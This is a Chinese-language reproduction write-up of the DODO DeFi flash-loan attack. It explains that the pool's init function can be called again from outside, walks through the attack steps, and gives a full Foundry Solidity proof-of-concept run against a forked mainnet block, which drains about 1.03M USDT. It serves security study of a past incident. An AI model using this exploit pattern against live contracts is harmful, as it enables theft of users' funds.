 # DODO攻击复现

## 1.参考资料：

交易hash分析：

https://phalcon.xyz/tx/eth/0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e

文章：

[DODO攻击事件分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/234657)

## 2.漏洞成因

这个成因比较简单，是因为init函数外部可调用，同时没有仅执行一次的限制

![image-20230409201441840](dodo.assets/image-20230409201441840.png)

攻击过程：

1.攻击者获取合约里两种代币的数量，提前转入了相同数量两种的fake代币：

![image-20230409201801103](dodo.assets/image-20230409201801103.png)

2.攻击者执行闪电贷，贷出池子里的代币之后，调用init函数重置了池子里边的两个token地址：

![image-20230409201931021](dodo.assets/image-20230409201931021.png)

3.回到漏洞合约，这时获取到的token地址已经变成了fake token的地址，由于提前转入fake代币，且数量一致，这里的require也不会报错，攻击成功

![image-20230409202322040](dodo.assets/image-20230409202322040.png)

## 3.POC合约

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url [your own RPC] --fork-block-number 12000163

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface IDODO {
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;

    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;

    function getVaultReserve() external view returns (uint256, uint256);
    
    function _BASE_TOKEN_() external view returns (address);
}

interface USDT{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}

interface FAKEA{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}

interface FAKEB{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}


contract ContractTest is Test{
    function setUp() public {

    }

    event Log(uint256 _val);

    //被攻击池子与被攻击代币
    address pool = address(0x051EBD717311350f1684f89335bed4ABd083a2b6);
    address ppol2 = address(0x2BBD66fC4898242BDBD2583BBe1d76E8b8f71445);
    address tokenA = address(0xa0afAA285Ce85974c3C881256cB7F225e3A1178a);
    address tokenB = address(0xdAC17F958D2ee523a2206206994597C13D831ec7);


    address binanceA=address(0xD551234Ae421e3BCBA99A0Da6d736074f22192FF);
    address fakeA=address(0x3883f5e181fccaF8410FA61e12b59BAd963fb645);
    address fakeB=address(0xf2dF8794f8F99f1Ba4D8aDc468EbfF2e47Cd7010);
    uint256 fakeA_num;
    uint256 fakeB_num;


    FAKEA fakea = FAKEA(fakeA);
    FAKEB fakeb = FAKEB(fakeB);
    USDT usdt = USDT(tokenB);

    function testA() external  {

        (fakeA_num,fakeB_num) = IDODO(pool).getVaultReserve();

        console.log("before usdt_num:", usdt.balanceOf(address(this)));

        uint256 tokena_num = FAKEB(tokenA).balanceOf(address(pool));
        uint256 usdt_num = usdt.balanceOf(address(pool));

        vm.prank(0xD551234Ae421e3BCBA99A0Da6d736074f22192FF);
        fakea.transfer(address(pool),fakeA_num);
        vm.prank(0x368A6558255bCCaC517da5106647d8182C571b23);
        fakeb.transfer(address(pool),fakeB_num);

        bytes memory data = abi.encode(pool, tokenA, tokena_num* 9 / 10 );
        IDODO(pool).flashLoan(tokena_num * 9 / 10 , usdt_num * 9 /10 , address(this), data); 
    }

    //Note: CallBack function executed by DODOV2(DVM) flashLoan pool --DVM池回调
    function DVMFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount,bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }

    //Note: CallBack function executed by DODOV2(DPP) flashLoan pool --DPP池回调
    function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }

    //Note: CallBack function executed by DODOV2(DSP) flashLoan pool --DSP池回调
    function DSPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }


    function _flashLoanCallBack(address sender, uint256, uint256, bytes calldata data) internal {
        (address flashLoanPool, address loanToken, uint256 loanAmount) = abi.decode(data, (address, address, uint256));
        
        require(sender == address(this) && msg.sender == flashLoanPool, "HANDLE_FLASH_NENIED");

        address addr1= address(0xaac153c1344cA14497A5dd22b1F70C28793625aa);
        address addr2 = address(0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01);
        IDODO(pool).init(addr1,fakeA,fakeB,3000000000000000,addr2,1,1000000000000000000,false);

        console.log("after usdt_num:", usdt.balanceOf(address(this)));
    }
}
```

## 4.复现结果

​	可以看到攻击合约的USDT余额从0变成了103W（为了确保成功，没有将USDT全部贷出来），以太坊上边的USDT代币精度是6位小数，不是18，所以这个数字是正确的，之前因为这个精度问题困扰了我一段时间。

![image-20230409200502151](dodo.assets/image-20230409200502151.png)

![image-20230409200747015](dodo.assets/image-20230409200747015.png)



